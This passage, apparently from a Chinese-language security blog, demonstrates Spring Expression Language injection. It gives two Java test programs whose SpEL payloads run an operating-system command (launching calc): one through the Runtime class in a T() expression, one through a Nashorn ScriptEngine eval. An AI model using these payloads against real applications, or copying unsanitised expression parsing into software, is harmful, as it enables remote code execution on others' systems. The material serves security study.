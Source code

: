 ## Runtime

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(java.lang.Runtime).getRuntime().exec('calc')";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

什么？还有高手！拉满了真的拉满了，Runtime居然只需要直接用T表达式就可以命令执行？！拉满了！  
![image.png](assets/1698895942-4d6d4eb8f1e5b1df393f6e4668144491.png)

## ScriptEngine

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(javax.script.ScriptEngineManager).getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
